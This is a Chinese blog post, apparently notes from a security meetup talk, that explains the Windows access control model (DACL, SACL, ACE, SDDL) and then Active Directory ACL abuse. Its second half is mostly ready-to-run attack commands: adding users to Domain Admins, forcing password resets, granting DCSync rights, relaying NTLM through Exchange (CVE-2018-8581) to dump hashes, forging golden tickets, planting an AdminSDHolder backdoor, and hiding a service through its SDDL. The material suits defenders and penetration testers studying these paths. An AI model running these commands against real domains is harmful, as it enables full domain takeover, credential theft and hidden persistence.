



治愈
之前在济南沙龙上分享的议题，博客记录一下
windows 访问控制模型
关于windows 访问控制模型
windows 访问控制模型是由两部分组成。
- 访问令牌（Access Token）
- 包含用户的标识(User SID,Group SIDS)，以及特权列表。
- 安全描述符（security identifiers）。被访问的安全对象的相关安全信息。这里的安全对象包括但不限于
- NTFS卷上的文件和目录
- 注册表项
- 网络共享
- 服务
- Active Directory对象
- 进程等等
安全描述符是与被访问对象关联的，它含有这个对象所有者的SID，以及一个访问控制列表（ACL，Access Control List），访问控制列表又包括了DACL（Discretionary Access Control List）和SACL（System Access Control List）其中，DACL是安全描述符中最重要的，它里面包含零个或多个访问控制项（ACE，Access Control Entry），每个访问控制项的内容描述了允许或拒绝特定账户对这个对象执行特定操作。至于SACL，它很少用到，主要是用于系统审计的，它的内容指定了当特定账户对这个对象执行特定操作时，记录到系统日志中。
- SIDs：所有用户、组的SID
- DACL (Discretionary Access Control List) 自主访问控制列表
- SACL （System Access Control List） 系统访问控制列表
- ACE （Access Control List）控制项
在域里面用户的身份上用sid 来表示而不是用用户名来查看，我们可以通过查看用户属性objectsid来查看一个用户的sid。
大体的流程是。当对象A来访问B的时候，A会出示自己的Access Token,然后包含自己的用户sid，自己所在的组的sid，以及特权列表。B这个安全对象，有自己的ACL。
- B首先判断是不是需要特权才能访问，如果需要特权，则查看A的Access Token看有没有那个特权。
- B通过A的Access Token，来判断A的用户 sid以及组sids，跟自己的ACL做比对，来判断是否让A进行访问。
ACL
ACL主要有两个作用
- 权限访问控制（DACL）
- 一个用户能不能访问安全对象
- 日志记录功能（SACL）
- 访问成功与否
DACL
DACL起到的作用是权限访问控制，也就是判断一个用户能不能访问安全对象。DACL 由若干条ACE构成。
那DACL 是怎么判断用户能否访问呢。
所有的可访问对象都有三种ACE，分别是Access-denied ACE，Access-allowed ACE，System-audit ACE。Access-denied ACE用于拒绝账户访问，Access-allowed ACE用于允许账户访问，而System-audit ACE用于SACL中。
当一个线程尝试去访问一个对象时，系统会检查线程持有的令牌以及被访问对象的安全描述符中的DACL。如果安全描述符中不存在DACL，则系统会允许线程进行访问。
如果存在DACL，系统会顺序遍历DACL中的每个ACE，检查ACE中的SID在线程的令牌中是否存在。当满足以下条件时，遍历会终止：
某个Access-denied ACE中的SID在线程令牌中存在，而且该ACE中的权限与线程要求的权限相符，此时系统拒绝该线程访问对象。
某个Access-allowed ACE中的SID在线程令牌中存在，而且该ACE中的权限与线程要求的权限相符，此时系统允许线程访问对象。
所有ACE中的SID在线程令牌中均不存在，此时系统拒绝线程访问对象。
举个例子
Object对象的DACL中含有三个ACE，第一个ACE拒绝Andrew账户对Object进行读取，写入和执行操作；第二个ACE允许Group A账户组中的所有账户对Object进行写入操作；第三个ACE允许任何账户对Object进行读取和执行操作。
线程A试图访问Object，在遍历DACL的时候，遇到第一个ACE，满足上述的条件，遍历终止，线程A被拒绝访问Object，尽管线程A的访问令牌中含有Group A账户组的SID，并满足第二个ACE。同理，第三个ACE也没有被检查。对于线程B的分析是一样的，这里就不啰嗦了。可见ACE的排列顺序对线程能否访问对象是很重要的。
创建DACL的方法：
1 |
|
ACE
通俗点来理解就是ace用来标识具体的权限，大体为下面四个方面
- 谁对你有权限
- 是允许还是拒绝
- 有什么权限
- 这个权限能不能被继承
可以使用下面的方法修改ace：
1 |
|
SACL
SACL的作用是记录访问成功与否，SACL也是由一条一条的ACE构成，每条ACE的内容是某个用户访问成功/失败 某个权限。当访问跟满足这条ACE的时候就会被记录下来。
SDDL
安全描述符定义语言，定义了ConvertSecurityDescriptorToStringSecurityDescriptor和ConvertStringSecurityDescriptorToSecurityDescriptor函数来进行文本与安全描述符之间的转换。
最下面的那一串便是sddl。
其语法如下：
1 | ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;(resource_attribute) |
特殊权限
一些比较有实战价值的权限，可以用以在域渗透的时候寻找攻击路径或者用于充当后门。
对某些属性的WriteProperty ，有以下属性
addmember(bf9679c0-0de6-11d0-a285-00aa003049e2)
servicePrincipalName(28630EBB-41D5-11D1-A9C1-0000F80367C1)
GPC-File-Sys-Path(f30e3bc1-9ff0-11d1-b603-0000f80367c1)
addmember
可以将任意用户，组或计算机添加到目标组。
如果一个用户对一个组有AddMembers权限，那么这个用户可以讲任何用户加入这个组，从而具备这个组的权限。
然后此时我们的用户便对改组拥有了写入权限，那么我们便可以使用下面的命令将任意用户加入域管，将其变为域管
1 | adfind -users -rb CN=bypass -dsq|admod -users -rb CN="Domain Admins" -stdinadd member |
此时，该用户已获得域管权限

BLOODHOUND查询语法如下：
1 | MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p |
扩展权限有
User-Force-Change-Password(0299570-246d-11d0-a768-00aa006e0529)
可以在不知道当前目标用户的密码的情况下更改目标用户的密码
DS-Replication-Get-Changes(1131f6aa-9c07-11d1-f79f-00c04fc2dcd2) 和 DS-Replication-Get-Changes-All(1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
对域对象具有这两个扩展权限的用户具备dcsync 权限
User-Force-Change-Password(0299570-246d-11d0-a768-00aa006e0529)
可以在不知道当前目标用户的密码的情况下更改目标用户的密码
1 | adfind.exe -b CN=administrator,CN=Users,DC=offensive,DC=org -sc getacl -sddlfilter ;;;; offensive\bypass |
然后即可更改密码
1 | admod -b CN=Administrator,CN=Users,DC=test,DC=local unicodepwd::123!@#qazwsx -optenc |
BLOODHOUND查询语法如下：
1 | MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p |
DS-Replication-Get-Changes(1131f6aa-9c07-11d1-f79f-00c04fc2dcd2) 和 DS-Replication-Get-Changes-All(1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
域对象只需要具备一下这两个权限，就有dcsync的权限。
1 | Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync |
或者使用adexplore：
adfind查看
此时便可使用dcsync攻击

查询语句如下：
1 | MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|SQLAdmin*1..]->(m)) RETURN p |
WriteDACL
跟之前的基本一样，这里不再阐述.
Self (Self-Membership) on Group
这条权限指的是某个账户能够把自身添加到某个组的权限(需要在某个组的高级权限中添加ACE，也就是说针对的是组对象)
WriteOwner
WriteOwner权限允许委托人修改对象的安全描述符的所有者部分。也就是说，假如用户A对administrator用户有这个权限，那么A能利用这个权限给自己附加其他的权限。
攻击方法
Exchange相关
在域环境中，安装Exchange后会添加一个名为Microsoft Exchange Security Groups的OU，其中包括两个特殊的组：Exchange Trusted Subsystem和Exchange Windows Permission，如果获得了这两个组内任意用户的控制权限，就能够继承该组的WriteDACL权限，进而修改域对象的ACL，最终实现利用DCSync导出域内所有用户hash。接下来可以使用域用户krbtgt的hash制作Golden Ticket，登录域控制器，获得对整个域的控制权限。
组名如下：
- Exchange Trusted Subsystem
- Exchange Windows Permission
- Organization Management
安装Exchange后默认会自动添加一个名为Microsoft Exchange Security Groups的OU。
其中包括两个特殊的组：Exchange Trusted Subsystem和Exchange Windows Permission
Exchange Trusted Subsystem是Exchange Windows Permission的成员
默认情况下，
Exchange Windows Permissions对安装Exchange的域对象具有WriteDACL权限，那么
Exchange Trusted Subsystem也会继承这个权限,权限查看方法如下：
然后在下面找到Exchange Windows Permissions这个OU,右键–>高级，查看安全描述符
就会发现该组具有writeacl权限
如果对域对象具有WriteDACL权限，就能够为指定域用户添加ACE，使其获得利用DCSync导出域内所有用户hash的权限，接下来可以使用域用户krbtgt的hash制作Golden Ticket，登录域控制器，获得对整个域的控制权限
下面来复现一下整个攻击过程：
首先我们这里把一个用户加入到这个组里面
1 | Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members testa |
我们查询可知，该用户已拥有了相关我们所需要的权限
那么下面我们使用该用户进行我们的dcsync攻击。
或者使用
1 | \Invoke-ACLPwn.ps1 -SharpHoundLocation .\SharpHound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn krbtgt |
NTLMRelay与DCSync
NTLMRelay是一个已经存在了很久的攻击方式，在2018年和2019年分别爆出了关于Exchange的SSRF漏洞（CVE-2018-8581）+NTLMRelay攻击、CVE-2019-1040 NTLM协议漏洞的两种利用方式，传播最广泛的利用方式就是通过这两个漏洞对域对象的ACL进行改写，实现DCSync，从而获取krbtgt账户的HASH值.
CVE-2018-8581
该漏洞主要有两种玩法，一种是可以伪造任意用户，进行邮件操作，而另一种就是通过我们的NTML Relay获取到krbtgt的hash。该hash可用于制作黄金票据，最后达到全域通畅的效果。这里主要是第二种玩法
说起NTML Relay可以用下面这张图来进行讲解，或者后面专门写一篇文章来聊一聊这个。
其实你可以将其理解为是一个中间人攻击，假设我们的将左边的机器称之为server1右边的机器称之为server2，那么如图所示Server1 与 Attack的过程就是在进行挑战响应，但是Attack还会将Server1的请求转发一次到Server2，最终结果就是Attack将会模拟了Server1的身份对Server2进行操作。很多时候，在讲解挑战响应机制的时候，协议使用的smb协议。因为SMB Relay危害较大，所以在MS08-068中已经进行修复，主要是禁止SMB -> SMB在同一台机器上的重放。而http–>smb也在MS16-075进行修复。
而我们这里需要进行的则是HTTP -> LDAP，通过Exchange获取到相关数据，然后通过LDAP协议Relay到域控上。
Exchange所在的Exchange Windows Permissions组默认具有writeDACL权限，也就是写ACL权限,这样普通用户就能使用DCSync进行Dump域控的Hash。
复现过程
首先需要进行LDAP监听，然后进行SSRF攻击。
1 | python privexchange.py -ah 192.168.2.114 192.168.2.108 -u exchange -p abc123\! -d contoso --debug |

然后我们的用户即可获取相应的权限
1 | python3 ntlmrelayx.py -t ldap://192.168.2.109 --escalate-user exchange |
然后dump hash
1 | python3 secretsdump.py contoso/exchange@192.168.2.109 -just-dc |
然后即可制作金票，获取域控操作权限。
若出现ssl问题，可尝试更改代码如下
1 | uv_context = ssl.SSLContext(ssl.PROTOCOL_TLSv1) |
权限提升
CVE-2020-16939,利用DACL覆写提权。
Invoke-ACLPwn
1 | .\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -NoDCSync |
RACE
1 | Set-RemoteWMI -SamAccountName labuser -ComputerName ops-dc |

AdminSDHolder
AdminSDHolder会将自身的ACL列表每隔一个小时向受保护的组中同步，所以如果在AdminSDHolder中添加一个ACE作为后门，则受保护的组中将会一直被同步策略。
powerview操作
1 | Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=test,DC=local" -PrincipalIdentity zhangs -Rights All |
60分钟后，则会获得所有权限。
然后加入域管理组
1 | Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'testa'} |
SDDL隐藏服务
1 | & $env:SystemRoot\System32\sc.exe sdset SWCUEngine "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)" |
恢复
1 | & $env:SystemRoot\System32\sc.exe sdset SWCUEngine "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)" |
参考文章：
https://pentestlab.blog/2019/09/12/microsoft-exchange-acl/
https://www.cnblogs.com/zplutor/archive/2010/01/05/1639892.html
https://daiker.gitbook.io/windows-protocol/ldap-pian/11#0x02-acl-jian-jie
https://docs.microsoft.com/zh-cn/windows/win32/secauthz/access-control-lists
https://daiker.gitbook.io/windows-protocol/ldap-pian/13
https://github.com/infosecn1nja/AD-Attack-Defense
https://docs.microsoft.com/zh-cn/windows/win32/secauthz/access-control-entries
https://docs.microsoft.com/zh-cn/windows/win32/secauthz/how-dacls-control-access-to-an-object
https://docs.microsoft.com/en-us/windows/win32/secauthz/ace-strings
https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format
https://sensepost.com/blog/2020/ace-to-rce/
https://github.com/rogue-kdc/CVE-2020-16939
https://github.com/samratashok/RACE
https://www.labofapenetrationtester.com/2019/08/race.html
https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/
https://www.secquan.org/Share/1068537